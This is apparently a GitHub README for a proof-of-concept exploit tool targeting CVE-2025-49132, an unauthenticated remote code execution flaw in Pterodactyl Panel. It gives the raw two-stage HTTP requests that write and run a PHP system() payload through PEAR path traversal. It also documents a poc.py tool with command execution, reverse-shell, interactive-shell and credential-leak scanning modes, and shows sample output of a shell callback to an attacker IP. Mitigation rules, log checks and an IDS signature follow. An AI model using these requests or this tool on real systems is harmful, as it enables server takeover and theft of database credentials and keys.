


# CVE-2025-49132: Pterodactyl Panel Unauthenticated RCE via PHP PEAR Method

[](https://nvd.nist.gov/)
[](LICENSE)
[](https://www.python.org/)

## Table of Contents
- [Overview](#overview)
- [Vulnerability Details](#vulnerability-details)
- [Technical Analysis](#technical-analysis)
- [Exploit Flow](#exploit-flow)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Mitigation](#mitigation)
- [Disclaimer](#disclaimer)
- [References](#references)
- [Author](#author)

## Overview

This repository contains a proof-of-concept (PoC) exploit for **CVE-2025-49132**, a critical unauthenticated remote code execution vulnerability in Pterodactyl Panel versions prior to 1.11.11.

**Pterodactyl Panel** is a free, open-source game server management panel built with PHP. The vulnerability allows an unauthenticated attacker to execute arbitrary system commands on the target server through improper handling of the `/locales/locale.json` endpoint combined with PHP PEAR's `pearcmd.php` functionality.

### Vulnerability Summary
- **CVE ID**: CVE-2025-49132
- **CVSS Score**: 10.0 (Critical)
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- **CWE**: CWE-94: Improper Control of Generation of Code ('Code Injection')
- **Affected Versions**: Pterodactyl Panel < 1.11.11
- **Attack Complexity**: Low
- **Privileges Required**: None (Unauthenticated)
- **User Interaction**: None

## Vulnerability Details

### What is PHP PEAR?

**PHP PEAR** (PHP Extension and Application Repository) is a framework and distribution system for reusable PHP components. It provides a command-line tool (`pearcmd.php`) that can be used to manage PEAR packages.

The `pearcmd.php` file processes commands through URL parameters, and when combined with path traversal, it can be leveraged to:
1. Create arbitrary PHP files on the system
2. Execute those files through the web server

### Root Cause

The vulnerability exists because:

1. **Unvalidated Path Traversal**: The `locale` parameter in `/locales/locale.json` allows path traversal without proper validation
2. **Direct File Inclusion**: The application directly includes files based on user-controlled input
3. **PEAR Command Injection**: The `pearcmd.php` script accepts the `+config-create` command which can write arbitrary PHP files
4. **Unauthenticated Access**: The vulnerable endpoint doesn't require authentication

### Attack Vector

An attacker can:
1. Use path traversal to reach the PEAR installation directory
2. Abuse the `config-create` command to write malicious PHP code to `/tmp`
3. Execute the malicious PHP file through the same endpoint
4. Achieve full remote code execution as the web server user

## Technical Analysis

### Exploitation Process

The exploit works in two stages:

#### Stage 1: Payload Creation
```http
GET /locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&<?=system('id')?>+/tmp/payload.php HTTP/1.1
Host: target.com
```

**Breakdown:**
- `+config-create+/` - Invokes PEAR's config creation functionality
- `locale=../../../../../../usr/share/php/PEAR` - Path traversal to PEAR directory
- `namespace=pearcmd` - Targets the `pearcmd.php` file
- `<?=system('id')?>+/tmp/payload.php` - PHP payload and destination file

#### Stage 2: Payload Execution
```http
GET /locales/locale.json?locale=../../../../../../tmp&namespace=payload HTTP/1.1
Host: target.com
```

**Breakdown:**
- `locale=../../../../../../tmp` - Path traversal to `/tmp` directory
- `namespace=payload` - Includes and executes `payload.php`

### Why URL Encoding Breaks the Exploit

The exploit requires sending special characters (`<`, `>`, `?`, `=`) in the URL without encoding them. If these characters are URL-encoded:
- `<?=system('id')?>` becomes `%3C%3F%3Dsystem%28%27id%27%29%3F%3E`
- PEAR interprets this as literal text instead of PHP code
- The PHP tags are not recognized, preventing code execution

## Exploit Flow



### Attack Flow Diagram



## Installation

### Prerequisites
- Python 3.6 or higher
- `requests` library

### Clone the Repository
```bash
git clone https://github.com/xffsec/CVE-2025-49132_PEAR_METHOD.git
cd CVE-2025-49132_PEAR_METHOD
```

### Install Dependencies
```bash
pip3 install -r requirements.txt
```

Or manually:
```bash
pip3 install requests
```

## Usage

### Basic Command Execution
```bash
python3 poc.py -H <target_host> -c "<command>"
```

### Reverse Shell
```bash
# On attacker machine, start listener
nc -lvnp 4444

# Execute exploit with reverse shell
python3 poc.py -H <target_host> -r <your_ip>:4444
```

### Interactive Pseudo-Shell
```bash
python3 poc.py -H <target_host> --shell
```

### Fuzz for PEAR Installations
```bash
python3 poc.py -H <target_host> --fuzz
```

### Scan for Vulnerability
```bash
python3 poc.py -H <target_host> --scan
```
Checks for CVE-2025-49132 via config leaks (database credentials, app key).

### Custom PEAR Path
```bash
python3 poc.py -H <target_host> -c "whoami" -p "/opt/pear"
```

### Verbose Output
```bash
python3 poc.py -H <target_host> -c "id" -v
```
Shows detailed progress (payload creation, PEAR path, execution status).

### Full Options
```
usage: poc.py [-h] -H HOST [-c COMMAND] [-r REVERSE_SHELL] [--shell] [--fuzz] [--scan]
              [-p PEAR_PATH] [-e ENDPOINT] [--ssl] [--timeout TIMEOUT] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Target host (e.g., 192.168.1.100 or example.com)
  -c COMMAND            Command to execute on target system
  -r REVERSE_SHELL      Reverse shell (format: LHOST:LPORT)
  --shell               Interactive pseudo-shell mode
  --fuzz                Fuzz for PEAR installation paths
  --scan                Scan target for vulnerability (config leaks)
  -p PEAR_PATH          Custom PEAR path (default: /usr/share/php/PEAR)
  -e ENDPOINT           Vulnerable endpoint (default: /locales/locale.json)
  --ssl                 Use HTTPS
  --timeout TIMEOUT     Request timeout in seconds (default: 10)
  -v, --verbose         Verbose progress output
```

## Examples

### Example 1: Basic Command Execution
```bash
$ python3 poc.py -H panel.pterodactyl.htb -c "id"

[CVE-2025-49132] Pterodactyl Panel RCE via PHP PEAR

[+] Command Output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Use `-v` for verbose output (payload details, PEAR path, etc.).

### Example 2: Reverse Shell
```bash
# Terminal 1: Start listener
$ nc -lvnp 4444
listening on [any] 4444 ...

# Terminal 2: Execute exploit
$ python3 poc.py -H panel.pterodactyl.htb -r 10.10.14.5:4444

╔══════════════════════════════════════╗
║   CVE-2025-49132 - Pterodactyl RCE   ║
╚══════════════════════════════════════╝

[!] Make sure your listener is running: nc -lvnp 4444

# Terminal 1: Receive connection
connect to [10.10.14.5] from (UNKNOWN) [panel.pterodactyl.htb] 45678
www-data@pterodactyl:/var/www/pterodactyl$
```

### Example 3: Interactive Pseudo-Shell
```bash
$ python3 poc.py -H panel.pterodactyl.htb --shell

shell> whoami
www-data

shell> pwd
/var/www/pterodactyl

shell> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

shell> exit
```

### Example 4: PEAR Path Fuzzing
```bash
$ python3 poc.py -H panel.pterodactyl.htb --fuzz

╔══════════════════════════════════════╗
║   CVE-2025-49132 - Pterodactyl RCE   ║
╚══════════════════════════════════════╝

[+] Found 3 potential PEAR installation(s):
    /usr/share/php/PEAR
    /usr/share/pear
    /usr/local/lib/php/PEAR
[*] Use -p flag with one of these paths for exploitation
```
Use `-v` to see per-path fuzz progress.

### Example 5: Vulnerability Scanner
```bash
$ python3 poc.py -H panel.pterodactyl.htb --scan

╔══════════════════════════════════════╗
║   CVE-2025-49132 - Pterodactyl RCE   ║
╚══════════════════════════════════════╝

[*] Scanning: http://panel.pterodactyl.htb/locales/locale.json
-------------------------------------------------------
[+] VULNERABLE - Database credentials leaked
    Host:     127.0.0.1
    Port:     3306
    Database: panel
    Username: pterodactyl
    Password: ********
    Connection: pterodactyl:********@127.0.0.1:3306/panel
[+] VULNERABLE - App configuration leaked
    App Key: base64{...}
    [!] SECURITY WARNING: APP_KEY exposed!
-------------------------------------------------------
[+] Target is VULNERABLE to CVE-2025-49132
```

## Mitigation

### Immediate Actions

1. **Update Pterodactyl Panel**
   ```bash
   cd /var/www/pterodactyl
   php artisan p:upgrade
   ```
   Update to version **1.11.11** or later.

2. **Disable Vulnerable Endpoint** (Temporary Workaround)
   
   Add to your web server configuration:
   
   **Apache (.htaccess)**:
   ```apache
   <Files "locale.json">
       Order Allow,Deny
       Deny from all
   </Files>
   ```
   
   **Nginx**:
   ```nginx
   location ~* /locales/locale\.json {
       deny all;
       return 403;
   }
   ```
   
   **Note**: This will break localization features.

3. **Web Application Firewall (WAF)**
   
   Implement WAF rules to block path traversal attempts:
   ```
   SecRule REQUEST_URI "@contains ../" "id:1000,phase:1,deny,status:403"
   SecRule ARGS "@contains ../" "id:1001,phase:2,deny,status:403"
   ```

### Long-term Solutions

1. **Input Validation**: Implement strict validation for the `locale` and `namespace` parameters
2. **Path Sanitization**: Use `realpath()` to resolve and validate file paths
3. **Whitelist Approach**: Only allow specific, predefined locale values
4. **Authentication**: Require authentication for locale endpoints
5. **Security Audits**: Regular security assessments and penetration testing

### Detection

**Log Analysis** - Look for suspicious patterns:
```bash
# Apache/Nginx access logs
grep "locale.json" /var/log/apache2/access.log | grep "\.\."
grep "pearcmd" /var/log/apache2/access.log
grep "config-create" /var/log/apache2/access.log

# Look for payload files
find /tmp -name "payload.php" -o -name "*.php" -mtime -1
```

**IDS/IPS Signatures**:
```
alert http any any -> any any (msg:"CVE-2025-49132 PEAR RCE Attempt"; 
  content:"/locales/locale.json"; http_uri; 
  content:"pearcmd"; http_uri; 
  content:"config-create"; http_uri; 
  sid:1000001; rev:1;)
```

## Disclaimer

**FOR EDUCATIONAL AND AUTHORIZED TESTING PURPOSES ONLY**

This proof-of-concept exploit is provided for educational purposes and authorized security testing only. The author assumes no liability for misuse or damage caused by this program.

### Legal Notice

- ✅ **DO**: Use this tool for authorized penetration testing and security research
- ✅ **DO**: Use this tool on systems you own or have explicit permission to test
- ✅ **DO**: Use this tool to verify patches and security controls
- ❌ **DON'T**: Use this tool against systems without explicit authorization
- ❌ **DON'T**: Use this tool for malicious purposes
- ❌ **DON'T**: Deploy this tool in production environments without proper controls

**Unauthorized access to computer systems is illegal.** Users are responsible for ensuring compliance with applicable laws and regulations.

## References

- [CVE-2025-49132 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-49132)
- [GitHub Advisory: GHSA-24wv-6c99-f843](https://github.com/advisories/GHSA-24wv-6c99-f843)
- [Pterodactyl Panel Security Advisory](https://pterodactyl.io/security/)
- [PHP PEAR Documentation](https://pear.php.net/)
- [CWE-94: Code Injection](https://cwe.mitre.org/data/definitions/94.html)

## Author

**xffsec**

| Contact |
|---------|
| GitHub: [@xffsec](https://github.com/xffsec) |
| Email: [xffsec@gmail.com](mailto:xffsec@gmail.com) |

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contributing

Contributions, issues, and feature requests are welcome! Feel free to open an issue or submit a pull request.

## Acknowledgments

- Pterodactyl Panel development team for their responsible disclosure process
- The security research community
- HackTheBox for providing a safe environment to practice these techniques

---

**⚠️ Remember**: Always practice responsible disclosure and never exploit vulnerabilities without proper authorization.
